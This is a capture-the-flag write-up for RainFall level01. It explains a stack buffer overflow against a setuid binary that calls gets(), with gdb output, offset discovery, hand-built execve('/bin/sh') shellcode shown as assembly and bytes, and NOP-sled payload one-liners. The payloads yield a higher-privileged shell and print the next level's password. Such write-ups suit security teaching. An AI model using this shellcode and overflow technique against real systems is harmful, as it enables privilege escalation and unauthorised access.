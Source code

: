 # level01

- We login as user level00, this is then displayed:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```

```
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

```
level1@RainFall:~$ gdb level1
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
```


- This exercise is an introduction to stack [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).
The program generously allows us to write without limits into its stack.
We just need to write enough characters to reach the return address of the `main` function.
Then, we will replace this address with the address of a memory area that will contain a [shellcode](https://en.wikipedia.org/wiki/Shellcode) which will call `execve("/bin/sh")`.


- First, we need to know from how many characters the return address of our function starts to be substituted. It can be done quickly using a tool like [Metasploit](https://en.wikipedia.org/wiki/Metasploit).
>`msf-pattern_offset -l [pattern length] -q [saved EIP address]`


- The return address is found to be replaced after the 76th character:
```
(gdb) b*0x08048495
```

```
r < <(python -c "print('A'*76 + 'BBBBCCCC')")
Starting program: /home/user/level1/level1 < <(python -c "print('A'*76 + 'BBBBCCCC')")

Breakpoint 1, 0x08048495 in main ()
(gdb) i f
Stack level 0, frame at 0xbffff740:
 eip = 0x8048495 in main; saved eip 0x42424242
 Arglist at 0xbffff738, args:
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
```
>`saved eip 0x42424242`


- 42 is the hexadecimal ASCII value of the character 'B'. So, `BBBB` should be replaced with an address that points to the beginning of our shellcode.


- Let's make that shellcode.
```asm
section .text
    global _start

_start:
    xor esi, esi            ; 
    xor edi, edi            ; 
    xor ecx, ecx            ; 
    xor edx, edx            ; Cleaning registers

    push edx                ; Null terminate the string
    push 0x68732f2f         ; Pushing "//sh"
    push 0x6e69622f         ; Pushing "/bin"
    
    mov ebx, esp            ; Pointer to the string
    xor eax, eax            ;
    mov al, 0xb             ; 11 is the syscall number of execve
    int 0x80
```

```
$ nasm -f elf32 src.asm -o obj.o
```

```
$ objdump -d obj.o

test.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:   31 f6                   xor    %esi,%esi
   2:   31 ff                   xor    %edi,%edi
   4:   31 c9                   xor    %ecx,%ecx
   6:   31 d2                   xor    %edx,%edx
   8:   52                      push   %edx
   9:   68 2f 2f 73 68          push   $0x68732f2f
   e:   68 2f 62 69 6e          push   $0x6e69622f
  13:   89 e3                   mov    %esp,%ebx
  15:   31 c0                   xor    %eax,%eax
  17:   b0 0b                   mov    $0xb,%al
  19:   cd 80                   int    $0x80
```


- So we have a 27 bytes shellcode.
```
$ echo -ne "\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80" | wc -c
27
```


- Now, we need to store our shellcode somewhere in the program's memory, for example, writing it into the memory area filled by `<gets@plt>`. Let's start by retrieving this memory address.
```
level1@RainFall:~$ gdb level1
```

```
(gdb) b*0x08048495
```

```
(gdb) r < <(echo -n "123")
Starting program: /home/user/level1/level1 < <(echo -n "123")

Breakpoint 1, 0x08048495 in main ()
(gdb) x $eax
0xbffff6d0:     0x00333231
```


- The address is `0xbffff6d0`, this means that by launching our program like so `(gdb) r < <(python -c "print '$SHELLCODE' + 'a'*(76 - 27) + '\xd0\xf6\xff\xbf'")`, the program's execution flow should be redirected to our shellcode.


- However, `(gdb) r < <(echo lol)` is equivalent to `$ echo lol | our_binary`. Thus, the pipe will send EOF once `lol` has been transmitted to `our_binary`, which means that `stdin` will be closed for `our_binary`. Since `execve()` inherits the I/O of the parent process, our `/bin/sh` would close immediately. That's why we will add `cat` to keep `stdin` open during `execve()`.
```
(gdb) r < <(python -c "print '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*49 + '\xd0\xf6\xff\xbf'"; cat)
...
whoami
level1
```


- A shell has been successfully launched, let's take advantage of [the setuid and setgid permission bits](https://en.wikipedia.org/wiki/Setuid) by doing the same thing without GDB.
```
(python -c "print '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*49 + '\xd0\xf6\xff\xbf'"; cat) | ./level1

Illegal instruction (core dumped)
```


- It doesn't work, indeed, the environment is slightly different between a program launched with/without GDB. That's why the exact address we are targeting isn't exactly the same. We therefore need to find the correct address. By adding [NOP instructions](https://fr.wikipedia.org/wiki/NOP) before our shellcode, we can make the address search less laborious. We would then be tempted to do it like this:
>`python -c "print '\x90'*49 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + '\xd0\xf6\xff\xbf'"`


- But since our shellcode is stored directly in the stack, and `esp` is at that moment of program execution at the level of the previous stack frame, our instructions `push $0x68732f2f` and `push 0x6e69622f` would corrupt our shellcode, and it wouldn't work.
So, we need to keep a bit of space, precisely 8 bytes:
>`python -c "print '\x90'*41 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*8 + '\xd0\xf6\xff\xbf'"`


- Thus, thanks to these NOP instructions, the execution of our shellcode will be able to succeed from a broader range of addresses.
```
level1@RainFall:~$ (python -c "print '\x90'*41 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*8 + '\xf0\xf6\xff\xbf'"; cat) | ./level1

whoami
level2

cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
